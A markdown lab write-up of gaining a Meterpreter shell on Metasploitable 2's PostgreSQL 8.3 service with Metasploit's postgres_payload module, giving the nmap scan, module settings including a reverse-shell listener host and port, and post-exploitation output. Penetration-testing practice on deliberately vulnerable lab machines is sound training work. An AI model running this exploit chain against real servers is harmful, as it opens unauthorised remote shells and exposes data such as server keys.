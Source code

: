 # 🐘 PostgreSQL Exploitation – Meterpreter Shell (Port 5432)

> This section describes how I exploited the PostgreSQL service on Metasploitable 2 to gain a Meterpreter shell.

---

## 🔍 Service Discovery

```bash
nmap -sV -p 5432 192.168.182.128
```

📌 Output:
- PostgreSQL DB 8.3.0 - 8.3.7

---

## 🔎 Step 1: Metasploit Exploit Search

```bash
search postgresql
```

Identified relevant module:
```bash
use exploit/linux/postgres/postgres_payload
```

---

## ⚙️ Step 2: Exploit Configuration

```bash
set RHOSTS 192.168.182.128
set RPORT 5432
set LHOST 192.168.182.129
set LPORT 4444
```

Confirmed with `show options`.

---

## 🚀 Step 3: Execute Exploit

```bash
run
```

📌 Result:
- Meterpreter shell session opened.

---

## 🧠 Step 4: Post-Exploitation Checks

```bash
sysinfo
```
📌 Output:
```
Computer    : metasploitable.localdomain
OS          : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture: i686
BuildTuple  : i486-linux-musl
Meterpreter : x86/linux
```

```bash
ls
```
📌 Listing:
```
/var/lib/postgresql/8.3/main

Mode       Size  Type  Last modified            Name
100600/rw-   4   fil   2010-03-17 10:08:46 -0400 PG_VERSION
040700/rwx 4096  dir   2010-03-17 10:08:56 -0400 base
040700/rwx 4096  dir   2024-09-08 22:36:03 -0400 global
040700/rwx 4096  dir   2010-03-17 10:08:56 -0400 pg_clog
040700/rwx 4096  dir   2010-03-17 10:08:46 -0400 pg_multixact
040700/rwx 4096  dir   2010-03-17 10:08:46 -0400 pg_subtrans
040700/rwx 4096  dir   2010-03-17 10:08:56 -0400 pg_tblspc
040700/rwx 4096  dir   2010-03-17 10:08:46 -0400 pg_twophase
040700/rwx 4096  dir   2010-03-17 10:08:56 -0400 pg_xlog
100600/rw- 125   fil   2010-09-08 22:13:39 -0400 postmaster.opts
100600/rw-  54   fil   2010-09-08 22:13:39 -0400 postmaster.pid
100644/r--  54   fil   2010-03-17 10:07:45 -0400 root.crt
100644/r-- 1224  fil   2010-03-17 10:07:45 -0400 server.crt
100644/r--  891  fil   2010-03-17 10:07:45 -0400 server.key
```

✅ Full control over PostgreSQL server achieved

---

## 🔐 Summary

| Element       | Details                              |
|---------------|---------------------------------------|
| Service       | PostgreSQL (8.3.x)                   |
| Exploit       | `postgres_payload` (Metasploit)      |
| Shell Type    | Meterpreter                          |
| Access Level  | System access                        |


